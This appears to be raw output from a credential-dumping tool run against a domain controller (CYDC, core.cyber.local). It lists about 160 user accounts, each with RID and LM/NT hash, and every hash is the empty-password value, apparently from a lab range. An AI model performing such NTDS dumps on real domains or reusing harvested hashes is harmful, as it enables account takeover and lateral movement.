NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Nathan.Macmillan:1176:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Hazel.Allison:1177:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sharon.Ward:1178:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Alcantar:1179:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Garcia:1180:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Marcelino.Fehr:1181:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Walters:1182:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lisa.Wyatt:1183:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Michael.Young:1184:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joyce.Cary:1185:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jessie.Rankins:1186:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Roy.Bates:1187:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Tony.Wilson:1188:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jessica.Day:1189:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Trena.Sandefur:1190:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Tanya.Gallaway:1191:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gloria.Mackey:1192:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lonnie.Ver:1193:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Mary.Haggerty:1194:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kathleen.Dixon:1195:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Robles:1196:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Darryl.Gutierrez:1197:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gregory.Sweeney:1198:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jeniffer.Schumacher:1199:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Thomas.Riley:1200:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Betty.Simms:1201:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Martha.Gatto:1202:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sandra.Slattery:1203:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lee.Cortez:1204:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lori.Carpenter:1205:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Michael.Delgado:1206:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Tiffany.Dryden:1207:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Alvarado:1208:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Renae.Lester:1209:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Billy.William:1210:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dave.Harding:1211:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Anthony.Watts:1212:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Steve.Otoole:1213:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ghislaine.Cooper:1214:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Charles.Bennett:1215:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Linda.Bolds:1216:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rebecca.Gough:1217:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Victor.Morillo:1218:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Carrie.Peterson:1219:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.McManus:1220:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Scott.Waggener:1221:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Paul.Hendrickson:1222:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Beverly.Perry:1223:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Bonnie.Gordon:1224:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Maile.Noda:1225:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gregory.Sanders:1226:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Arron.Felton:1227:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Leatha.Silva:1228:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Clayton.Coleman:1229:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Larry.Mendoza:1230:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lexie.Wilder:1231:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joseph.Musgrove:1232:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kathryn.Dalton:1233:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Pettyjohn:1234:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Curtis.Seals:1235:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Oneal:1236:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Elmer.Anderson:1237:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sandra.Lopez:1238:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kathy.Murphy:1239:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Charlene.Hamrick:1240:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jennifer.Bennett:1241:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\William.Blackburn:1242:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Penelope.Stone:1243:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Flores:1244:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Christi.Cheatham:1245:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Willard.Vankirk:1246:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dorothy.Thomason:1247:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Betty.Massingill:1248:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Renee.Lopez:1249:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Teresa.Bray:1250:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rose.Stepp:1251:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Thomas.Wilson:1252:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Carmen.Plummer:1253:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sammie.English:1254:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ashley.Henke:1255:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Richard.Johnston:1256:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Melissa.Burke:1257:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Wilma.Goodyear:1258:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Debra.Wade:1259:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Linda.Barrera:1260:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sara.Moreno:1261:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Bonnie.Parker:1262:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Frederick.Santiago:1263:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Brandon.English:1264:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Andrew.Doyle:1265:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Benjamin.Lee:1266:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Mary.Torres:1267:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ethel.Head:1268:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Andrew.Wells:1269:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Titus:1270:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Frances.Mason:1271:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jerry.Baker:1272:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Reina.Tolbert:1273:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Phillip.Carver:1274:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Juan.March:1275:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\George.Correia:1276:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ethel.Bui:1277:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Marie.Young:1278:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Goza:1279:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Maria.Gourley:1280:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Allison.Reeves:1281:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Barbara.Martin:1282:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Howard.Strickland:1283:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Christina.Sibley:1284:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Merle.Elias:1285:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Paula.Pederson:1286:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rick.Potts:1287:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Iona.Braud:1288:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Huddleston:1289:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Fore:1290:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rosanne.Waldron:1291:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Steve.Miranda:1292:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Annie.Stevenson:1293:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Sergio.Degen:1294:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Lemons:1295:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Steven.Chapman:1296:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Shawn.Swanigan:1297:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Betty.Bloom:1298:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Eugene.Salerno:1299:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gary.Oneil:1300:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Julie.Reyes:1301:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jose.Fortner:1302:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Danielle.Dale:1303:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Alexander.Bradbury:1304:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Michele.Trahan:1305:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Barbara.Nielsen:1306:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Laurie.Hall:1307:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gabrielle.Licata:1308:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Martinez:1309:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dennis.Fischer:1310:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Daniel.Naron:1311:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Brian.Harting:1312:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Welch:1313:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Thomas.Doherty:1314:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Virginia.Correa:1315:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Willie.Brown:1316:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rodger.Allen:1317:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Bianca.Ellis:1318:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lynda.Ashley:1319:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joan.Say:1320:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Connie.Leon:1321:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joseph.Molinari:1322:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Graff:1323:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gloria.Thomas:1324:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dayna.Norwood:1325:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Richard.Cormier:1326:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Donald.McKinney:1327:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Amber.Cullinan:1328:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jason.Penn:1329:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Terry.Lucero:1330:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joyce.Dutton:1331:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Hawthorne:1332:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dawn.Chapa:1333:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Catherine.Jenkins:1334:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Surratt:1335:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jeffrey.Wooten:1336:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Deborah.Blizzard:1337:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
